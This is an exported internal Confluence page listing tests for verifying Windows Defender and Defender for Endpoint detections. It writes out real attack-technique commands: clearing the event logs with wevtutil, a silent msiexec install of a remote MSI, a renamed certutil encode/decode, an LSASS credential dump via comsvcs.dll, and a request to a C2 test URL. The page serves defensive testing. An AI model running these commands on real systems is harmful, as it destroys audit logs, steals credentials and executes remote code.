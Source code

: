Seguretat : Bateria de proves de Windows Defender  

1.  [Seguretat](index.md)
2.  [Pàgina d'inici de la Unitat de Seguretat](15368362.md)
3.  [Procediments Unitat de Seguretat](Procediments-Unitat-de-Seguretat_81856210.md)
4.  [Microsoft 365 Defender - Manual d'administrador](93356745.md)

Seguretat : Bateria de proves de Windows Defender
=================================================

Created by Ivan Caballero, last modified on 07 agosto 2023

  

**Test protections state**
--------------------------

Previously AV solutions were tested with the use of Eicar. I’m not a huge fan of testing with Eicar. Ideally, test with some advanced testing. A good example is Red Atomic or the simulation lab of Defender for Endpoint.

Testing the protection state is important for testing the protection features and alerting/ detection capabilities in Defender for Endpoint. Based on MDE we have various components to test:

*   Network Protection
*   Defender AV/ Cloud Protection
*   EDR component
*   C2 Network Protection
*   Additional exploit guard (ASR, SmartScreen)

**EDR test: Clean Windows Event logs**
--------------------------------------

Run the following commands for checking the EDR reporting capabilities for malicious activities (cleaning Windows event logs)

wevtutil cl system

wevtutil cl application

wevtutil cl security

**EDR test: create a scheduled task**

For testing MITRE T1053 create a scheduled task. When correctly configured Defender for Endpoint alerts for a masqueraded task or service.

Run the following command:

schtasks /Create /F /SC MINUTE /MO 3 /ST 07:00 /TN CMDTestTask /TR "cmd /c date /T > C:\\Windows\\Temp\\current\_date.txt"

**EDR test: use of living off the land binary to run malicious code**

Testing the execution of LOLBAS payload.

Run the following command:

msiexec /q /i [https://github.com/op7ic/EDR-Testing-Script/blob/master/Payloads/notepad.msi?raw=true](https://github.com/op7ic/EDR-Testing-Script/blob/master/Payloads/notepad.msi?raw=true)

**AV+EDR test: Encode Certutil and decode**

Encode Certutil rename and decode. When configured correctly the process must be blocked by Defender AV behavior monitoring.

copy %windir%\\system32\\certutil.exe %temp%\\tcm.tmp

%temp%\\tcm.tmp -encode C:\\Windows\\System32\\calc.exe %temp%\\T1140\_calc2.txt

%temp%\\tcm.tmp -decode %temp%\\T1140\_calc2.txt %temp%\\T1140\_calc2\_decoded.exe

**AV test: Dump LSASS.exe memory using comsvcs.dll**

Run the following PowerShell command line for dumping LSASS.exe memory using comsvcs.dll. In all situations, the lsassdump hack tool must be prevented from running and dumping the secrets.

C:\\Windows\\System32\\rundll32.exe C:\\windows\\System32\\comsvcs.dll, MiniDump (Get-Process lsass).id $env:TEMP\\lsass-comsvcs.dmp full

**AV test: Block at First Sight**

Block at First Sight is a feature of Microsoft Defender Antivirus cloud-delivered protection that blocks and detect new malware within some seconds. Use the following test site for testing the BAFS feature: [BAFS – Microsoft Defender Testground](https://demo.wd.microsoft.com/Page/BAFS)

When correctly configured the file must be blocked automatically.

**AV test: Cloud-delivered protection**

When Cloud-delivered protection is enabled and correctly configured the file must be blocked. Download the test file. When detected/ blocked by Defender SmartScreen make sure the file is downloaded.

For more information see: [Microsoft Defender for Endpoint Cloud-delivered protection demonstration | Microsoft Learn](https://learn.microsoft.com/en-us/microsoft-365/security/defender-endpoint/defender-endpoint-demonstration-cloud-delivered-protection?view=o365-worldwide)

**AV test: Network Protection**

Network protection is critical and part of Defender. As already explained in the earlier parts SmartScreen must be enabled for Microsoft Edge, for all 3rd-party browsers Network Protection must be in block mode.

Testing is possible by adding some indicators with the state **block** or using the test websites created by Microsoft.

Use the following website for testing Network Protection or SmartScreen:

[https://smartscreentestratings2.net/](https://smartscreentestratings2.net/)

Expected result in Chrome:

![](attachments/93356988/93356991.png)

Expected result in Microsoft Edge:

![](attachments/93356988/93356992.png)

**AV test: Network Protection Command and Control**

For testing the Command and Control (C2) detections in Defender for Endpoint/ Defender AV the Defender C2 test URL can be used.

Open PowerShell and run the following command:

Invoke-WebRequest -URI [https://commandcontrol.smartscreentestratings.com](https://commandcontrol.smartscreentestratings.com)

When correct the request was aborted with the following error: Could not create SSL/ TLS secure channel. Directly after running the PowerShell process is closed automatically.

![](attachments/93356988/93356993.png)

  

**Defender for Endpoint – Evaluation & tutorials**

Part of Defender for Endpoint is the simulations and tutorials page. For each device the Microsoft simulations and Atomic Red team simulation files can be used for advanced testing.

![](attachments/93356988/93356994.png)

  

Use the tutorials created by Microsoft for specific testing. The tutorials page contains test situations for document backdoors; fileless attacks; backdoor and custom detections.

  

![](attachments/93356988/93356996.png)

  

  

  

  

Attachments:
------------

![](images/icons/bullet_blue.gif) [image2023-8-7\_9-58-53.png](attachments/93356988/93356991.png) (image/png)  
![](images/icons/bullet_blue.gif) [image2023-8-7\_9-59-26.png](attachments/93356988/93356992.png) (image/png)  
![](images/icons/bullet_blue.gif) [image2023-8-7\_9-59-52.png](attachments/93356988/93356993.png) (image/png)  
![](images/icons/bullet_blue.gif) [image2023-8-7\_10-0-27.png](attachments/93356988/93356994.png) (image/png)  
![](images/icons/bullet_blue.gif) [image2023-8-7\_10-1-12.png](attachments/93356988/93356996.png) (image/png)  

Document generated by Confluence on 07 junio 2025 00:08

[Atlassian](http://www.atlassian.com/)
